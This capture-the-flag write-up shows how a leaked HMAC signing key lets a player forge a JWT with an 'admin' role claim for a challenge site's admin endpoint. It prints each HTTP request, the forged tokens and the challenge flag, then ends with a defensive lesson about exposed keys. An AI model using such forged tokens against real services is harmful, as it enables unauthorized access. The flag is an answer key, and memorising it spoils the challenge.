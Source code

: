 # Bearer of Bad News

### Challenge
> Oh, oh. Someone committed the secret key ("Book-Key") to GitHub. If you hurry you might be able to exploit it.

When you naviage to the clue, you are presented with:

`No Authorization header provided`  

This is telling you that you need to add an Authorization header to the request, so you do:  

````
GET /Book/AdminOps HTTP/1.1  
Host: gsccctf-bookclub.azurewebsites.net  
Authorization: foo
````  
That request results in:  
`Authoriztion scheme must be "Bearer"`  

So, you change the scheme to "Bearer":  
````
GET /Book/AdminOps HTTP/1.1
Host: gsccctf-bookclub.azurewebsites.net
Authorization: Bearer foo
````
and that response is:  
`Bearer token does not appear to be a valid JWT format`  

knowing (or researching) the JWT format you know that it comes in the form of [header].[payload].[signature] . You don't yet know what to use for any of the values, so you just try something to see what the response tells you next.  
````
GET /Book/AdminOps HTTP/1.1
Host: gsccctf-bookclub.azurewebsites.net
Authorization: Bearer foo.bar.fizz
````

Response:  
`JWT HMAC SHA256 signature is not valid`  

At this point you know you need to sign the header and payload with a SHA256 hash and the key is "Book-Key". Generating a JWT signature is pretty straightforward, but we can make it super easy by using the online debugger provided by jwt.io. When you navigate to that site you have the capability of editing the header, payload and signature key. Since we still don't know what might be needed in the header or the payload, we just enter our key "Book-Key" and try the JWT that was generated with the sample default header and payload:  

 ![](jwt1.png)  

 Now we should have a valid JWT signed with the key "Book-Key". We update our test and try it:  
 ````
GET /Book/AdminOps HTTP/1.1
Host: gsccctf-bookclub.azurewebsites.net
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.kR4zGHaARRnUyQxEKMZsTJyqfBD9Qb6xouukTu6ycVg
 ````  
 The response is now saying that the JWT needs to have a claim named "role":  
 `JWT claim "role" not present`  

 So, back in the jwt.io debugger, you make an edit to the payload so it includes a role claim:  
 ````
 {
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022,
  "role" : "foo"
}
````
It generates an new JWT since the signature changes when the content changes:  
````
GET /Book/AdminOps HTTP/1.1
Host: gsccctf-bookclub.azurewebsites.net
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyLCJyb2xlIjoiZm9vIn0.L7Ps_rvkqWtowicAI9g6jjbsp4dT_d-3kBzraAdy0Hs
````
The response changes and gives us more information. It says we need a role named "admin"; our "foo" role wasn't accepted.  
`Must have "admin" role to access this resource`  

So back to the jwt.io debugger. Change the "foo" role to "admin"... 
````
{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022,
  "role" : "admin"
}
````

...grab the updated token and send it: 
````
GET /Book/AdminOps HTTP/1.1
Host: gsccctf-bookclub.azurewebsites.net
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyLCJyb2xlIjoiYWRtaW4ifQ.gmQl_v5M9EvxzPJxOTuq36pX0yT7nO1l8-3-d3H3eRg
````

Finally, we have followed all the bread crumbs and we are presented with the flag:  
`able-sword-pail-planet`  

The moral of this story is that it can be easy to fake a JWT token if the key is exposed. This could allow a person to authenticate and authorize against a resource. In practice, identity providers are more sophisticated. They validate time stamps, they may validate that they have a record of issuing a particular token, etc. Despite the fact that these additional safeguards are common, you cannot just assume they are in place. And it also exemplifies why you should not implement your own token server, stick with something built by the experts.










